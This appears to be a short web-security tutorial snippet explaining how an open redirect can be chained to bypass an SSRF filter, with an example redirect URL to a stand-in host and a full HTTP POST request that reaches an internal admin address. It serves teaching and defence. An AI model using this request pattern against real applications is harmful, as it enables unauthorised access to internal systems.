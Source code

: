 # Bypassing SSRF filters via open redirection

For example, the application contains an open redirection vulnerability in which the following URL:
```bash
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```
returns redirection to:  `http://evil-user.net`
You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows:
```bash
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```
This SSRF exploit works because the application first validates that the supplied `stockAPI` URL is on an allowed domain, which it is. 
The application then requests the supplied URL, which triggers the open redirection.
It follows the redirection, and makes a request to the internal URL of the attacker's choosing.
